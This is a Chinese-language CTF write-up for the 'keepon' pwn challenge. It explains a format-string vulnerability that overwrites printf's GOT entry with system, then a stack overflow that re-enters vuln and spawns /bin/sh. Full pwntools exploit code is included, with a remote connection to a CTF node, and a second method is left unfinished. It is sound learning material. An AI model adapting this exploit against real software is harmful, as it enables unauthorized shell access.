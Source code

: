 题解：[😘欢迎回来~ | 坠入星野的月🌙 (uf4te.cn)](https://www.uf4te.cn/posts/6f874503.html#:~:text=%E5%8F%8B%E9%93%BE%E6%9C%8B%E5%8F%8B%E5%9C%88.%20%E5%AE%9E%E7%94%A8%E5%B7%A5)
# 方法一 格式化字符串漏洞
![[Pasted image 20240908192622.png]]
可以发现有格式化字符串漏洞可利用
![[Pasted image 20240908192730.png]]
给了个假的`backdoors`，运行了他会输出一个真"flag"
但也可以发现有`system`函数
可以利用格式化字符串漏洞将`printf`函数的GOT表换为`system`函数的地址，这样在运行`printf`函数的时候实际执行的就是`system`函数
利用`fmtstr_payload(偏移量, {原函数：替换后函数})`函数，可以直接构造出替换的payload
计算偏移量可用直接观察法或用`fmtstr`类提供的方法
```python
def exec_fmt(payload):
    p = process('./keepon')
    pwnlib.gdb.attach(p, 'b printf')
    p.recvuntil('name: ')
    p.recvline()
    print(payload)
    p.sendline(payload)
    info = p.recv()
    print(info)
    return info
    
if __name__ == '__main__':
    auto_fmtstr = FmtStr(exec_fmt)
```
多运行几次就会给出偏移量
将`printf`函数的GOT表地址换过之后还需至少运行一遍`printf`，故可以在第二次`read`函数内栈溢出，使`vuln`函数重运行，然后就可以运行`system`了
```python
from pwn import *

context(arch='amd64', os='linux', log_level='debug')
backdoor = 0x400854
ret = 0x4005b9

def exec_fmt(payload):
    # 获取偏移
    p = process('./keepon')
    pwnlib.gdb.attach(p, 'b printf')
    p.recvuntil('name: ')
    p.recvline()
    print(payload)
    p.sendline(payload)
    info = p.recv()
    print(info)
    return info

def main():
    elf = ELF('./keepon')
    local = True
    if local:
        p = process('./keepon')
        pwnlib.gdb.attach(p, 'b *0x40076F')
    else:
        p = remote('node4.anna.nssctf.cn', 28327)
    printf_got = elf.got['printf']
    system_addr = elf.sym['system']
    vuln_addr = elf.sym['vuln']
    payload = fmtstr_payload(6, {printf_got: system_addr})
    p.recvuntil(b'name: \n')
    p.sendline(payload)
    p.recvuntil(b'keep on !\n')
    payload = b'a' * (0x50 + 8) + p64(vuln_addr)
    p.send(payload)
    p.recvuntil(b'name: \n')
    p.send(b'/bin/sh\x00')
    p.interactive()
  
if __name__ == '__main__':
    # auto_fmtstr = FmtStr(exec_fmt)
    # print(auto_fmtstr.offset)
    main()
```
# 方法二 栈迁移
还在学